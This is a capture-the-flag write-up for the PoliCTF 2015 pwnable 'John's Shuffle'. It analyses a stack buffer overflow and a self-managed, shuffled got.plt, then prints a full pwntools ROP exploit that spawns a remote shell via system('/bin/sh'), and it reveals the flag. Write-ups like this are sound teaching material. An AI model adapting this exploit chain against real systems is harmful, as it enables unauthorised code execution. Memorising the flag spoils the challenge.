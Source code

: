 # PoliCTF 2015: John's Shuffle

**Category:** Pwnable
**Points:** 350
**Solves:** 55
**Description:**

> John is completely drunk and unable to protect his poor stack.. Fortunately he can still count on his terrific shuffling skills. Connect to
> shuffle.polictf.it:80
> GPG key: PenOrmunonCerwivpagsyasOwirOjVed
> [http://download.polictf.it/johns-shuffle_ebee3fc8684b5802b681ade5dd06623f.tar.gz.gpg](Download)

## Write-up
Runnning file on johns-shuffle:
>```bash
> $ file johns-shuffle
> johns-shuffle: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=8a7ccb88d6259fdf5b193f17dc4d8183ada66b64, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : ENABLED
>PIE       : disabled
>RELRO     : Partial
>```

Looks like a 32-bit binary with NX and partial RELRO; this gives an idea of how to approach the exploit.

After tracing through my input, I found that it was being read in through an fgets call here:

>```assembly
> .text:08048F57 mov     dword ptr [esp+4], 44h ; n
> .text:08048F5F lea     eax, [esp+2Ch]
> .text:08048F63 mov     [esp], eax      ; s
> .text:08048F66 call    _fget
>```

The fgets function is being called with a size of 68, and after analyzing the size of the actual array in IDA, we can see that the size is 20 bytes. So after 20 bytes of input we achieve a stack based buffer overflow. Since the binary isn't compiled with a Canary we can simply overwrite the return address.

So next we look for ways to make the binary hit a return instruction. It seems like the main loop breaks when the call to exitcompare returns 1 or if seed\_2 is less than 0. The exitcompare function just seems to check if the first 4 bytes is exactly "exit" and returns 1 if they are. Seed\_2 initially is set to seed\_1 in the shuffle function and is decremented by half of seed_1 each loop. Seed\_1 is also initialized to the current time, which gives us 3 loops before the check fails. But really for all intents and purposes seed\_2 is really just a counter.

Looking at the list of imports, we see a lot of interesting functions such as system, read, write, execv, etc. 
_If you are looking at this in gdb, make sure to enable set follow-fork-mode parent since system(0) is called in shuffle._ So why not use read to write "/bin/sh\0" somewhere into the binary and call system! 

However, during runtime it seems that read@plt instead points to somewhere else:
>```assembly
>[----------------------------------registers-----------------------------------]
>EAX: 0x0 
>EBX: 0xb7784000 --> 0x1abda8 
>ECX: 0x4 
>EDX: 0xb763dee0 (<_IO_puts>:	push   ebp)
>ESI: 0x0 
>EDI: 0x0 
>EBP: 0x41414141 ('AAAA')
>ESP: 0xbff8f510 --> 0xa ('\n')
>EIP: 0x8048690 (<read@plt>:	jmp    DWORD PTR ds:0x804b00c)
>EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
>[-------------------------------------code-------------------------------------]
>   0x8048686:	jmp    DWORD PTR ds:0x804b008
>   0x804868c:	add    BYTE PTR [eax],al
>   0x804868e:	add    BYTE PTR [eax],al
>=> 0x8048690 <read@plt>:	jmp    DWORD PTR ds:0x804b00c
> | 0x8048696 <read@plt+6>:	push   0x0
> | 0x804869b <read@plt+11>:	jmp    0x8048680
> | 0x80486a0 <isnan@plt>:	jmp    DWORD PTR ds:0x804b010
> | 0x80486a6 <isnan@plt+6>:	push   0x8
> |->   0xb763dee0 <_IO_puts>:	push   ebp
>       0xb763dee1 <_IO_puts+1>:	push   edi
>       0xb763dee2 <_IO_puts+2>:	push   esi
>       0xb763dee3 <_IO_puts+3>:	push   ebx
>                                                                  JUMP is taken
>[------------------------------------stack-------------------------------------]
>0000| 0xbff8f510 --> 0xa ('\n')
>0004| 0xbff8f514 --> 0xbff8f5a4 --> 0xbff912e3 ("/home/ubuntu/johns-shuffle")
>0008| 0xbff8f518 --> 0xbff8f5ac --> 0xbff91312 ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
>0012| 0xbff8f51c --> 0xb77b0cea (<call_init+26>:	add    ebx,0x12316)
>0016| 0xbff8f520 --> 0x1 
>0020| 0xbff8f524 --> 0xbff8f5a4 --> 0xbff912e3 ("/home/ubuntu/johns-shuffle")
>0024| 0xbff8f528 --> 0xbff8f544 --> 0x7049d088 
>0028| 0xbff8f52c --> 0x804b040 --> 0xb75f1990 (<__libc_start_main>:	push   ebp)
>[------------------------------------------------------------------------------]
>Legend: code, data, rodata, value
>0x08048690 in read@plt ()
>gdb-peda$
>```

At first I had found it strange that the binary has no entries in the global offset table section, but it seems to be implementing its own. For those who don't know, the got and plt entries are what allows for binaries to be dynamically linked to external libraries. The shuffle and unshuffle functions then seem to be shifting around the got.plt entries which hold the resolved libc addresses. The shuffle is based on a random seed which is initialized in seed\_1 so each time the binary is run, the libc addresses will be in different areas. However srand is called again with seed\_1 each loop so that the same random number is used for each process.

There are a couple of ways to defeat this, 
1. Leak a libc address and jump to libc instead
2. Predict the pseudorandomness
3. Force the binary into a deterministic state

At first I tried to bruteforce a plt entry until it would be the write function and try to leak a libc address, but it didn't seem work out too well. In the end I realized that you could do #3, I saw the bubble\_sort function and figured that there is only one way that you can sort the got.plt entries and if you could do that, then you would know which plt entries matched up to where and it would be the same no matter how you shuffled it. I just analyzed which entries matched up to where and called those plt entries instead. Once the got.plt was sorted, the shuffle and unshuffle would just undo each other and at the end of the return the entries would stay sorted. Another problem I ended up having was that the I ran out of buffer room but I remedied this by chaning main so I could write more. 

So putting it all together:

>```python
>from pwn import *
>from struct import unpack
>
>context.log_level ="info"
>
>#r = remote('localhost',8888)
>r = remote('shuffle.polictf.it',80)
>padding = "A"*32
>padding2 = "A"*36
>padding3 = "A"*24
>
>bubsort = p32(0x0804891D)
>gotplt = p32(0x0804b00c)
>
>popret = p32(0x8048675)
>pop2ret = p32(0x804901e)
>pop3ret = p32(0x804901d)
>
>system_plt = p32(0x80486c0)
>read_plt = p32(0x8048750)
>
>main = p32(0x08048EBF)
>buff = p32(0x0804B070)
>
>r.send(padding+bubsort+pop2ret+gotplt+p32(25)+main+'\n') #sort the got.plt
>r.send('exit\n')
>
>r.send(padding2+read_plt+pop3ret+p32(0)+buff+p32(8)+main+'\n') #read /bin/sh into somewhere
>r.send('exit\n')
>
>pause(3) #wait for the read to go through
>r.send('/bin/sh\x00')
>
>r.send(padding3+system_plt+popret+buff+system_plt+popret+buff+'\n') #at this point the stack is pretty messed up so this line is pretty yolo
>r.send('exit\n')
>
>r.clean()
>r.interactive()
>```

_flag{rand0mizing_things_with_l0ve}_
## Other write-ups and resources

* <https://ctf-team.vulnhub.com/polictf-2015-johns-shuffle/>
